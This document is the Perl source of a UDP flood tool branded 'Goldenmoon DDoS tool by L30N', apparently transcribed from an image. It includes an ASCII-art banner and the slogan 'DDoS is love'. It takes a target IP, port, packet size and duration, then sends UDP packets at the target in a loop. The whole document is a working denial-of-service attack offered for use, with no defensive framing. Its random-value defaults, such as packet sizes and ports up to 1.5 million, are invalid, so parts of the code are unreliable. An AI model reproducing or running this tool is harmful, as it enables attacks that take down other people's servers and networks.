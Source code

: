 #!/usr/bin/perl
 
use Term::ANSIColor qw(:constants);
    $Term::ANSIColor::AUTORESET = 2;

print BOLD RED "IP first";

print BOLD YELLOW "port Second\n";

print BOLD YELLOW "packets third";

print BOLD BLUE  "seconds last\n";
 
############
# L30N b4ck<----
############
 
use Socket;
use strict;
 
my ($ip,$port,$size,$time) = @ARGV;
 
my ($iaddr,$endtime,$psize,$pport);
 
$iaddr = inet_aton("$ip") or die "Cannot resolve hostname $ip\n";
$endtime = time() + ($time ? $time : 100);
socket(flood, PF_INET, SOCK_DGRAM, 17);
 
print BOLD YELLOW<<EOTEXT;

#################################################################################
#                             aaaaaaaaaaaaaaaa               *                  #
#                         aaaaaaaaaaaaaaaaaaaaaaaa                              #
#                      aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa                           #
#                    aaaaaaaaaaaaaaaaa           aaaaaa                         #
#                  aaaaaaaaaaaaaaaa                  aaaa                       #
#                 aaaaaaaaaaaaa aa                      aa                      #
#*               aaaaaaaa      aa                         a                     #
#                aaaaaaa aa aaaa                                                #
#          *    aaaaaaaaa     aaa                                               #
#               aaaaaaaaaaa aaaaaaa                               *             #
#               aaaaaaa    aaaaaaaaaa                                           #
#               aaaaaa a aaaaaa aaaaaa                                          #
#                aaaaaaa  aaaaaaa                                               #
#                aaaaaaaa                                 a                     #
#                 aaaaaaaaaa                            aa                      #
#                  aaaaaaaaaaaaaaaa                  aaaa                       #
#                    aaaaaaaaaaaaaaaaa           aaaaaa        *                #
#      *               aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa                           #
#                         aaaaaaaaaaaaaaaaaaaaaaaa                              #
#                      *      aaaaaaaaaaaaaaaa                                  #
#################################################################################         IP: $ip
                                                                                          PORT: $port
                                                                                         PACKETS: $size
                                                                                         TIME: $time
 

Ferramenta de DDoS Por L30N $ip with $size packets.

-Goldenmoon DDoS tool by L30N.
Author: L30N               
       
EOTEXT
 
use Term::ANSIColor qw(:constants);
    $Term::ANSIColor::AUTORESET = 2;
print "~ DDoS is love DDoS is live~ $ip " . ($port ? $port : "random") . "-" .
  ($size ? "$size-byte" : "Fuck all") . "
~ Attacking $ip.
~ #0FFL1N3 ~ " .
  ($time ? " for $time seconds" : "") . "\n";
print "Break with Ctrl-C\n" unless $time;  
 
for (;time() <= $endtime;) {
  $psize = $size ? $size : int(rand(1500000-64)+64) ;
  $pport = $port ? $port : int(rand(1500000))+1;
 
send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport,
 $iaddr));}

 
               
       

